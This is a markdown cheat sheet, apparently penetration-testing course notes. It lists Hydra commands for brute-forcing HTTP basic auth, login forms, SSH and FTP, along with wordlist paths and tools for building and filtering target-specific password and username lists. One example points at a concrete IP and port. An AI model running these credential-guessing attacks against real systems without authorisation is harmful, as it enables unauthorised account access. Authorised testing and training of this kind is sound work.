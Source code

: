 # Hydra

| **Command**   | **Description**   |
| --------------|-------------------|
| `hydra -C wordlist.txt SERVER_IP -s PORT http-get /` | Basic Auth Brute Force - Combined Wordlist |
| `hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /` | Basic Auth Brute Force - User/Pass Wordlists |
| `hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"` | Login Form Brute Force - Static User, Pass Wordlist |
| `hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4` | SSH Brute Force - User/Pass Wordlists |
| `hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1` | FTP Brute Force - Static User, Pass Wordlist |
> we can tell hydra to stop after the first successful login by specifying the flag `-f`  
> We will add the `-u` flag, so that it tries all users on each password, instead of trying all 14 million passwords on one user, before moving on to the next.
>
> example command  
> `hydra -l admin -P /usr/share/wordlists/rockyou.txt "http-post-form://64.227.34.91:30056/login.php:username=^USER^&password=^PASS^:F=<form name='login'" -t 64`

# Wordlists

| **Command**   | **Description**   |
| --------------|-------------------|
| `/usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt` | Default Passwords Wordlist |
| `/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt` | Common Passwords Wordlist |
| `/usr/share/seclists/Usernames/Names/names.txt` | Common Names Wordlist |

# Misc

| **Command**   | **Description**   |
| --------------|-------------------|
| `hydra -h \| grep "Supported services" \| tr ":" "\n" \| tr " " "\n" \| column -e` | show support services |
| `hydra http-post-form -U` | list the parameters it requires and examples of usage |
| `cupp -i` | Creating Custom Password Wordlist |
| `sed -ri '/^.{,7}$/d' william.txt` | Remove Passwords Shorter Than 8 |
| ```sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt``` | Remove Passwords With No Special Chars |
| `sed -ri '/[0-9]+/!d' william.txt` | Remove Passwords With No Numbers |
| `./username-anarchy Bill Gates > bill.txt` | Generate Usernames List ||
| `netstat -antp \| grep -i list` | list services |
